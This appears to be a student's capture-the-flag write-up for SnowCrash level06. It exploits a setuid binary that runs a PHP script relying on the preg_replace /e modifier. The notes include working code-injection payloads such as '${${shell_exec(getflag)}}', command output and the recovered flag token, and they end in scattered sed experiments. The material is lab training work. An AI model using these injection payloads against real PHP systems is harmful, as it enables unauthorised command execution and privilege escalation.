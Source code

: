 In level06 home directory we found two files

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

A binary that's executed with the userid of its owner
using strings to inspect the binary
```
level06@SnowCrash:~$ strings level06

/usr/bin/php
/home/user/level06/level06.php
```
 the binary uses the script:

note: use https://regexr.com/ 

```

<?php

function y($m) 
{ 
    $m = preg_replace("/\./", " x ", $m); // replace . with x
    $m = preg_replace("/@/", " y", $m); // replace @ with y
     return $m; 
}
function x($y, $z)
{
    $a = file_get_contents($y);                             // preg_replace(patterns, replacements, input)
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // matches a [ x space ( string ) ]
    $a = preg_replace("/\[/", "(", $a);                     // replace [ with (
    $a = preg_replace("/\]/", ")", $a);                     // replace ]  with )
    
    return $a;
}

$r = x($argv[1], $argv[2]);

print $r;

?>

```

The php script takes two arguments, but uses only the first as a file name and reads from it.
 we copied the php script to the host machine in order to format it and clearly read it and test it.

after running the script we got the error

PHP Warning:  preg_replace(): The /e modifier is no longer supported,
use preg_replace_callback instead in /home/sberrich/Projects/cursus/snowCrash/level06/Resources/level06.php on line 12


So we search about the The /e modifier in google and we found out that it's deprecated because it contains a vulnerability ,
now we just need to exploit it, we used shell_exec php function that execute shell commands and use the return as variable so php would throw an error with the return.

level06@SnowCrash:~$ echo "[x \${\${shell_exec(getflag)}}]" > /tmp/getflag06
level06@SnowCrash:~$ ./level06 /tmp/getflag06
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1



level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty

level06@SnowCrash:~$ echo "ls" > /tmp/output
level06@SnowCrash:~$ ./level06 /tmp/output
ls


The preg_replace() function returns a string or array of strings where all matches of a pattern
 or list of patterns found in the input are replaced with substrings.

```
<html>
<body>

<?php
$str = 'this is 42';
$pattern = '/42/i';
echo preg_replace($pattern, '1337', $str);
?>

</body>
</html>
```




echo  '[x {${system(getflag)}}]' > /tmp/test1
./level06 /tmp/test1

level06@SnowCrash:~$ echo  '[x {${(`getflag`)}}]' > /tmp/test1
level06@SnowCrash:~$ ./level06 /tmp/test1


➜  Desktop echo foo8www |sed 's/\(.*\)8\(.*\)/=\2/' 
=www
➜  Desktop echo foo8www |sed 's/\(.*\)8\(.*\)/\2/'  
www
➜  Desktop echo foo8www |sed 's#\(.*\)8\(.*\)#\2#' 